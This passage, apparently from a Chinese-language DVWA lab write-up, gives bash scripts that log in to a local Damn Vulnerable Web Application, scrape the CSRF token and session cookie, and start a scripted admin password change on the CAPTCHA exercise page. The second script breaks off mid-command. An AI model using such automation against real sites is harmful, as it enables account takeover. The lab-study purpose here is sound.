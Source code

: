 更完整一點的腳本，要先執行 `login-test.sh` 取得 cookie，再執行  `update-pwd.sh` 更新密碼

```bash
./login-test.sh
```

```bash
#!/usr/bin/env bash
# usage: ./login-test.sh [<password>]

if [ -z "$1" ]
  then
    echo "No argument supplied, use default password instead"
    LOGIN_PASSWORD=password
fi

# DVWA host
HOST=http://dvwa.localtest
# create cookie and save csrf token
CSRF=`curl -s -L -c cookies.txt -b cookies.txt "${HOST}/login.php" | grep user_token  | grep -oE \[a-z0-9\]+ | awk 'length >= 10'`
# save session id
SESSIONID=$(grep PHPSESSID cookies.txt | cut -d $'\t' -f7)

# user & password for login to start tasks
USER=admin
LOGIN_PASSWORD=$1

# login at login page
RES=`curl -v -L -c cookies.txt -b cookies.txt \
-X POST "${HOST}/login.php" \
--data-raw \
"username=${USER}&password=${LOGIN_PASSWORD}&Login=Login&user_token=${CSRF}"`

if [[ $RES == *"Welcome to Damn Vulnerable Web Application!"* ]]; then
  printf "\n PASS!✅ \n"
else
  printf "\n LOGIN FAILED❌ \n"
fi
```

 `update-pwd.sh` 可以使用 cookie file (預設) or 指定 session id 於 argv

```bash
./update-pwd.sh <password> 
```

```bash
./update-pwd.sh <password> <session-ed>
```

```bash
#!/usr/bin/env bash
# usage: ./update-pwd.sh <new password> [<session-id>]

HOST=http://dvwa.localtest
NEW_PASSWORD=$1
SESSIONID=$2

if [ -z "$2" ]
  then
    echo "No session id supplied, use cookie file instead."

    RES=`curl -v -L -c cookies.txt -b cookies.txt -X POST "${HOST}/vulnerabilities/captcha/#" \
    -H 'Content-Type: application/x-www-form-urlencoded' \
    -H "Origin: ${HOST}" \
    -H 'DNT: 1' \
    -H 'Connection: keep-alive' \
```